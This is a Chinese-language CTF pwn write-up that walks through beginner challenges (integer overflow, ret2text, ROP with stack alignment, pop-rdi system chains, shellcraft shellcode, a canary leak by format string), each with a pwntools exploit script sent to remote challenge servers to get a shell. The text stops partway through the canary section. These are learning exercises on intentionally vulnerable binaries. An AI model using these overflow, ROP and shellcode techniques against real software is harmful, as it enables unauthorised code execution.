## 整数溢出
做这题我们需要先知道什么是小端序存储
假设一个无符号整型(unsigned long)0x6162636465666768
存储在内存0xA0000处
按从低到高字节顺序存储
0xA0000 -> 0x68

0xA0001 -> 0x67

0xA0002 -> 0x66

0xA0003 -> 0x65

0xA0004 -> 0x64

0xA0005 -> 0x63

0xA0006 -> 0x62

0xA0007 -> 0x61

（大端序则反之）

如图，v4为4字节，却尝试用scanf将它视为%lld读入8字节整数，因此会覆盖到位于栈高字节的n1314（rbp-ch），当n1314等于520（0x208）时调用system，那便能拿到`shell`

因此输入0x20800000000在内存中为00 00 00 00 08 02,前面4个00即v4的内存区域，此时n1314被视为520

如果直接说有点抽象的话我们可以看一张图：

这下就很好理解了，那写exp就比较通透了：
```python
from pwn import *
r=remote('node7.anna.nssctf.cn',28805)
#r = process("./main")
context(os="linux",arch="amd64",log_level="debug")
num = 0x20865666768
#gdb.attach(r)
r.recvline()
r.sendline(str(num))
r.interactive()
```


## ROP

如图，scanf尝试向v4输入但没有上限(`%s`遇到回车才停止读取)，因此导致栈溢出 但是main函数里没有找到类似`system("/bin/sh")`的语句，于是通过查找字符串等方式我们不难发现在vuln这个函数中存在这个语句，那么我们的目的就是通过输入特定的字符串，让程序溢出到vuln函数

那么怎么return到vuln函数呢？其实让溢出的值是vuln函数的地址就行了。
```python
from pwn import *
context(os='linux',arch='amd64',log_level="debug")
r = remote('node7.anna.nssctf.cn', 23929)
vuln = 0x4011DD
playload = b"a"*0x28+p64(vuln)
r.recvline()
# gdb.attach(r)
r.sendline(playload)
r.interactive()
```
关于0x28，也就是没溢出的字节数是怎么来的，其实有很多方法，最基本的就是通过gdb慢慢调试出来，另一种就行在ida里看，就是[rbp-20h]=0x28。还有一种就是pwntools里的cyclic(~~最公式的一种~~)


## ret2text


这题其实和上一题没什么区别，只需要把跳转的地址转到if语句里就行了。**直接跳转到目标执行位置可以更好的解决问题**
在ida里找到if语句的地址便可以写exp了

```python
from pwn import *
r = remote('node6.anna.nssctf.cn', 20798)
context(os='linux', arch='amd64', log_level='debug')
playload = b"a"*0x28+p64(0x4011ff)
#gdb.attach(r)
r.recvline()
r.sendline(playload)
r.interactive()
```

## ret调整栈帧


这题和`ROP`那题看起来几乎是一样的，先试着使用ROP相同的办法写下exp看看，结果发现无法拿到shell，我们使用gdb具体看一下:

这里有一个非常重要的知识点：xmm寄存器只有在rsp的末尾为0时才能正常执行，这里的rsp是以8结尾了所以无法正常执行了。  

通过gdb还能发现我们是可以进入`vuln`函数的，但是进入了`vuln`函数我们就做不出什么操作了，于是考虑我们要在进入`vuln`函数之前调整好栈，让其移动8个字节(*这里其实还有一个知识点就是在64位系统的rsp里所以数据都是以8字节存储在栈上，所以结尾不是8就是0*)

**那么怎么移动呢？**

首先我们通过gdb可以发现`main`函数最后是一个`return`函数，所以我们需要使用它return(return函数的作用是把栈顶rsp指向的8个字节作为地址进行下一步执行传给rip~~不知道怎么说清楚了..看下面的图吧~~)到`vuln`函数，并且这样就顺便让栈上多了一个步骤从而实现了移动8字节(~~这一块好难解释啊...~~)

现在就剩下最后一个任务了，就是找到return函数的地址，这里我们使用ROPgadget来查找

成功在`0x40101a`处找到return函数
```python
from pwn import *
r = remote('node7.anna.nssctf.cn', 21013)
#r = process('./main')
context(os='linux', arch='amd64', log_level='debug')
playload = b'A' * 0x28 + p64(0x40101a) + p64(0x4011dd)
#gdb.attach(r)
r.recvline()
r.sendline(playload)
r.interactive()
```

## callpop


做这题我们需要先了解一下`call`和`pop`，`call`顾名思义就是“打电话”把函数叫过来执行--跳转到目标地址，遇到ret返回，通常用于函数调用。而`pop`是指将栈顶即rsp寄存器指向的内容弹进目标寄存器内。
同时我们还需要知道在64位系统中使用寄存器来传参，并且在linux系统中寄存器是有顺序的，按顺序是rdi，rsi，rdx，rcx，r8，r9，如果还有多余参数再传到栈中。
现在我们再来看题目，mian函数的内容还是和之前一样的，但是vuln没有`/bin/sh`了，这时候我们在ida里用shift+F12显示程序中所有字符串
发现是有的，于是我们再用ROPgadget查找`/bin/sh`的地址

那我们如何让system执行`/bin/sh`，而不是`ls`呢？再来ida里分析

这里的意思是command(*也就是`ls`*)被leave进了rdi里，之后call了(也就是调用了)system。于是我们可以想到在调用之前如果我们把`/bin/sh`的地址放进system(*ida里可以看到在在0x4011A5处*)里面，相当于自己造了一个`system('/bin/sh')`，那不就可以拿到shell了吗！
那具体怎么操作呢？这里就需要用到`pop`了，再使用一下ROPgadget查找`pop rdi`的地址，发现在0x40125B处。现在我们只需要根据上述的思路按照调用的顺序写exp就行了

```python
from pwn import *
context(arch='amd64', os='linux',log_level='debug')
r = remote('node6.anna.nssctf.cn', 26072)
system = 0x4011A5
poprdi = 0x40125B
binsh = 0x404048
playload = b'a'*0x48+p64(poprdi)+p64(binsh)+p64(system)
r.recvline()
#gdb.attach(r)
r.sendline(playload)
r.interactive()
```
## ret2sys
在做这题之前我们需要了解一下什么是`syscall`指令什么是`shellcode`：
我自己的理解是，`syscall`可以执行一些用户在linux系统里没有能力或没有权限去执行的一些事情，并返回结果。可以理解为特殊的函数。具体的解释，以及如何使用`syscall`，可以看下这篇文章[SYSCALL 指令](https://blog.csdn.net/qq_33060405/article/details/144361378)
`shellcode`就是一段可以获得shell或者实现特定功能的机器码。CTF里shellcode的目的就是最终执行execve("/bin/sh", 0, 0);
再来看下题目（*因为这题是帮助我们先了解汇编语言、机器码...也就是`syscall`的概念的题，所以不过多的具体展开，~~感觉详细的解释一时半会真讲不清~~*）

详细的题目解释就不解释了，我们现在只需要知道这题需要我们传入一个正确的`shellcode`（*编写`shellcode`需要较高的汇编语言能力，这题我们使用pwntools里的工具直接生产就行了*）
我们可以先了解一下汇编语言写成的`shellcode`是什么样的：
```
mov rax, 0x3b

mov rdi, "/bin/sh"

mov rsi, 0

mov rdx, 0
```
这代表着执行了`execve("/bin/sh", 0, 0)`，那么我们现在只需要用`shellcode = asm(shellcraft.sh())`直接生成就行了
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
r=remote('node7.anna.nssctf.cn',27652)
shellcode = asm(shellcraft.sh())
r.recvline()
r.sendline(shellcode)
r.interactive()
```
## eztext
心血来潮找了集训队官网的一道pwn做了一下，比之前练的题还是要稍微进阶一点的，并且意外的是这题居然和之前练的题有巧妙的联系。



通过ida我们可以知道，在`main`函数里直接执行了`vuln`函数，而`vuln`函数有很明显的栈溢出，`buf`大小只有 72 字节，但是`read(0, buf, 0x200)`最多可读0x200=512字节,所以可以通过输入超长数据覆盖栈上的返回地址到图三的backdoor函数，即可获得`shell`。并且从ida里还可以得到偏移为0x58、backdoor = 0x401166。于是我们便可以按照上面`ROP`那道题写exp了，结果发现：
```
[DEBUG] Received 0x24 bytes:
    b'bye\n'
    b"[*] Welcome to Kong's backdoor!\n"
bye
[*] Welcome to Kong's backdoor!
[*] Got EOF while reading in interactive
```
EOF(End Of File)了,EOF一般有以下几种原因：最常见的几种原因
1. 程序崩溃了，比如：
* 栈对齐没做好
* ROP 链错了
* 返回地址跳错了
2. 程序正常执行完然后退出，例如目标程序只是：
* 打印一点内容
* 执行结束
* 没有真的留下一个交互 shell
那连接也会结束。
3. shell 启动后立刻退出，有些情况下虽然调用了 /bin/sh，但：
* 标准输入输出不对
* 环境不完整
* shell 被限制
* 父进程退出带走了它
4. 服务端主动断开，比如：
* 超时
* 检测到非法输入
* 只允许一次请求
* 守护进程限制连接时长
想到了之前做的一道题--xmm寄存器只有在rsp的末尾为0时才能正常执行，猜想大概率是栈对齐没做好的原因，我们进入GDB里调试一下看看

果然，知道为什么程序出错就好办了，使用ROPgadget来找下ret的地址：

现在再加上ret的地址试试
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
r = remote('ctf.a1natas.com', 21986)
playload = b'A' * 0x58+p64(0x40101a)+p64(0x401166)
#gdb.attach(r)
r.recvline()
r.sendline(playload)
r.interactive()
```
果然可以了！但是怎么没有flag呢？`cat flag`也找不到啊。

这种情况我们可以用`ls -la /bin`这种形式的命令来查看目录里的具体内容

最后我们再/bin/flag处发现flag，用cat bin/flag\n命令得到flag。
## Canary
什么是Canary？Canary 的核心原理可以一句话概括：在函数返回地址前面放一个随机值，函数返回前检查这个值有没有被改掉；如果被改了，就认为发生了栈溢出，直接终止程序。
所以我们想要获取shell就需要绕过Canary。而绕过的核心思路就是先泄露canary，再原样写回canary，然后继续覆盖返回地址。
接下来我们完整的来做一遍：
我们checksec发现程序是 32 位 ELF，Canary found,打开ida，发现存在一个后门函数：`getshell = 0x080491c6`。

程序里的 vuln()有两个漏洞--第一个漏洞是格式化字符串`printf(buf)`用户输入被直接当成格式化字符串使用，所以可以泄露栈上的 canary;第二个漏洞是栈溢出：`read(0, buf, 0x200)`buf 只有一百多字节，但 read 最多读入 0x200 字节，因此可以覆盖栈上的 canary、saved ebp 和返回地址。程序循环执行两次输入，所以正好可以：
第一次输入：泄露 canary
第二次输入：栈溢出 ret2getshell
然后就是怎么泄漏canary了，我们需要知道Canary的地址，那怎么算呢？我们是可以通过汇编来算的(*汇编这一块我现在暂时还是没太搞懂*)，GPT是这么说的：
先看关键汇编，vuln() 中和 canary、printf 相关的汇编是：
```python
sub esp, 0x78  
  
mov eax, gs:0x14  
mov [ebp-0xc], eax        ; canary 保存在 ebp-0xc  
  
...  
  
lea eax, [ebp-0x70]       ; buf 地址  
push eax  
call printf  
```  
也就是说：  
buf    在 ebp - 0x70  
canary 在 ebp - 0x0c  
栈大概长这样：  
低地址  
buf                  ebp - 0x70  
...  
canary               ebp - 0x0c  
saved ebp            ebp  
return address       ebp + 4  
高地址  
在进入 printf 的时候：  
esp = ebp - 0x8c  
所以：  
%1$p  读的位置是 ebp - 0x84  
%2$p  读的位置是 ebp - 0x80  
%3$p  读的位置是 ebp - 0x7c  
...  
而 canary 在：  
ebp - 0x0c  
计算：  
第 1 个参数位置 = ebp - 0x84  
canary 位置     = ebp - 0x0c  
距离是：  
0x84 - 0x0c = 0x78  
每个参数在 32 位程序里占 4 字节，所以：0x78 / 4 = 30。因为 %1$p 是第一个位置，所以：1 + 30 = 31，因此 canary 正好是：%31$p
